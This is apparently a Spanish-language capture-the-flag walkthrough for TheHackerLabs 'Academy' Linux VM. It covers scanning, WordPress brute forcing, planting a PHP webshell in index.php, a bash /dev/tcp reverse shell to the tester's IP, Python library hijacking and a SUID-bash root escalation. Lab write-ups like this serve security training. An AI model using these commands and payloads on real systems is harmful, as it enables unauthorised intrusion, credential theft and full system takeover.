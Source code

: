 ```yaml
---
layout: post
title: "Academy"
date: 2024-06-11 16:25:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Academy </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/academy/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Academy/host.png){:.margin}

**1\.** Detecto los equipos activos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/Academy/arp.png){:.margin}

**2\.** Escaneo los puertos y detalles de los servicios que corre.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.9`

![img](/notas/public/img/thehackerlabs/Academy/nmap.png){:.margin}

**3\.** En la web esta la web por defecto de Apache. 

`http://192.168.1.9`

![img](/notas/public/img/thehackerlabs/Academy/80.png){:.margin}

**4\.** Fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://192.168.1.9/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/Academy/gobuster.png){:.margin}

**5\.** Analizando la web en /wordpress.

_5.1- La pagina no carga correctamente_

`http://192.168.1.9/wordpress/`

![img](/notas/public/img/thehackerlabs/Academy/80wordpress.png){:.margin}

_5.2- En su fuente veo que llama a un dominio_

![img](/notas/public/img/thehackerlabs/Academy/codewordpress.png){:.margin}

_5.3- Agrego el dominio al hosts, ahora la carga es correcta_

`sudo nano /etc/hosts`

`192.168.1.9  academy.thl`

![img](/notas/public/img/thehackerlabs/Academy/hosts.png){:.margin}
![img](/notas/public/img/thehackerlabs/Academy/80wordpressok.png){:.margin}

**6\.** Sigo con mas fuzzing en la web, no encuentro mucho mas.

`gobuster dir -u http://192.168.1.9/wordpress/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/Academy/gobusterwordpress.png){:.margin}

**7\.** Escaneo vulnerabilidades con wpscan, encuentra un usuario valido.

`wpscan --url http://192.168.1.9/wordpress -e vp,u --api-token='pasteyourapi'`

![img](/notas/public/img/thehackerlabs/Academy/wpscan.png){:.margin}

**8\.** Hago fuerza bruta al login de wordpress.

`wpscan --url http://192.168.1.9/wordpress -U dylan -P /usr/share/wordlists/rockyou.txt`

![img](/notas/public/img/thehackerlabs/Academy/wpsbruteforce.png){:.margin}

**9\.** Accedo al wordpress con las credenciales.

`http://192.168.1.9/wordpress/wp-login.php`

![img](/notas/public/img/thehackerlabs/Academy/wordpresslogin.png){:.margin}

**10\.** Obteniendo una webshell.

_10.1- Clickamos en file manager, y editamos el index.php_

![img](/notas/public/img/thehackerlabs/Academy/filemanager.png){:.margin}

_10.2- Añadimos nuestro codigo para ejecutar webshell_

`shell_exec($_GET["cmd"]);`

![img](/notas/public/img/thehackerlabs/Academy/editindex.png){:.margin}

_10.3- Probamos la ejecucion_

`academy.thl/wordpress/?cmd=cat /etc/passwd`

![img](/notas/public/img/thehackerlabs/Academy/80webshell.png){:.margin}

**11\.** Entablando conexion con una reverse shell.

_11.1- Me pongo en escucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/thehackerlabs/Academy/nc.png){:.margin}

_11.2- Me envio la reverse shell_

`http://academy.thl/wordpress/?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Academy/reverseshell.png){:.margin}

_11.3- Recibo la conexion_

![img](/notas/public/img/thehackerlabs/Academy/ncok.png){:.margin}

**12\.** Encuentro un script python, veo que no especifica la ruta completa de la libreria.

`cd /opt`

`ls`

`cat backup.py`

![img](/notas/public/img/thehackerlabs/Academy/catbackup.png){:.margin}

_\- Aparentemente realiza una conexion por ssh, pero al ejecutar nos da un error_

**13\.** Probando Python Library Hijacking.

_13.1- Creo una script paramiko.py donde hare una peticion a mi servidor local_

`echo -e "import os\nos.system('curl -s http://192.168.1.13/prueba')" > paramiko.py`

`cat paramiko.py`

![img](/notas/public/img/thehackerlabs/Academy/paramikopy.png){:.margin}

_13.2- Veo que si funciona, pero esto no tiene sentido ya que ejecutamos sin privilegio alguno, es como ejecutar el mismo paramiko.py_

`python3 -m http.server 80`

`python3 backup.py`

![img](/notas/public/img/thehackerlabs/Academy/backuppy.png){:.margin}

**14\.** Escalando privilegios.

_14.1- Uso [pspy64](https://github.com/DominicBreuker/pspy/releases) para ver los procesos, al cabo de unos segundos veo que root busca ejecutar /opt/backup.sh_
`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -q` 
`chmod +x pspy64`
`./pspy64`

![img](/notas/public/img/thehackerlabs/Academy/pspy64.png){:.margin}

_14.2- Creo el backup.sh con instrucciones para hacer suid el bash_
`echo "chmod u+s /bin/bash" > backup.sh`
`chmod +x backup.sh`

![img](/notas/public/img/thehackerlabs/Academy/backupsh.png){:.margin}

_14.3- Esperamos unos segundos para luego ejecutar bash -p_
`ls -l /bin/bash`
`bash -p`

![img](/notas/public/img/thehackerlabs/Academy/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>